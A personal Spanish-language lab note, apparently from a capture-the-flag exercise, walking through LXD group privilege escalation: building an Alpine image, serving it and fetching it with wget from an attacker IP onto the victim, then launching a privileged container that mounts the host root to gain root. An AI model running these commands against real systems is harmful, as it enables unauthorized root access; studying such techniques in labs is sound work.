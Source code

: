 Nota de [[lxd]]

[Articulo hacktricks](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation.html)

Para descargar la imagen y crearla en nuestra maquina
```
git clone https://github.com/saghul/lxd-alpine-builder  
cd lxd-alpine-builder  
sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine  
/////// Este comando modifica el script `build-alpine` para que use una **versión específica de Alpine** (en este caso, `v3.8`) en vez de la última (`latest-stable`). Esto es útil si estás trabajando con arquitecturas antiguas como `i686`, que ya no se soportan en las últimas versiones de Alpine.(Esto seria 32 bits)
sudo ./build-alpine -a i686  //Esto es para crear la imagen ya configurada en formato .tar.gz
```
Despues nos pusimos en escucha con [[python3 -m http.server]] . Y desde la maquina victima con `wget 10.10.14.8:8000/alpine-v3.13-x86_64-20210218_0139.tar.gz` descargamos la imagen

#### Ahora para levantar el contenedor:
```shell
lxc image import ./alpine*.tar.gz --alias myimage     //Importa la imagen con nombre alpine y le da el nombre ed imagen myimage
lxd init             //inicia lxd si nunca se habia hecho antes
lxc init myimage mycontainer -c security.privileged=true     // el parametro de -c security.privileged=true  hace que se ejecute como root
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true    // Explicado abajo de todo en notas
lxc start mycontainer  //Prende el contenedor
lxc exec mycontainer /bin/bash        //Entra al contenedor con el binario /bin/bash
```
Una vez hecho esto ya podemos ya podemos catear las flags por que somos root

![[Included13.png]]

--------

# Notas

### 🔍 Parámetros explicados:
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

| Parte                   | Significado                                                                                                              |
| ----------------------- | ------------------------------------------------------------------------------------------------------------------------ |
| `lxc config device add` | Agrega un **dispositivo virtual** al contenedor (en este caso, un disco/directorio).                                     |
| `mycontainer`           | Es el **nombre del contenedor** al que se lo estás agregando.                                                            |
| `mydevice`              | Es un **nombre arbitrario** para el dispositivo que estás montando (podés ponerle otro nombre si querés).                |
| `disk`                  | Indica que estás agregando un **dispositivo de tipo disco** (puede ser un directorio, un disco real o virtual).          |
| `source=/`              | El **directorio del host** que querés montar (en este caso, la raíz del sistema `/`).                                    |
| `path=/mnt/root`        | La **ruta dentro del contenedor** donde aparecerá ese contenido (en este caso, el host estará accesible en `/mnt/root`). |
| `recursive=true`        | Hace que el montaje incluya **todos los subdirectorios y sus contenidos** de forma recursiva.                            |
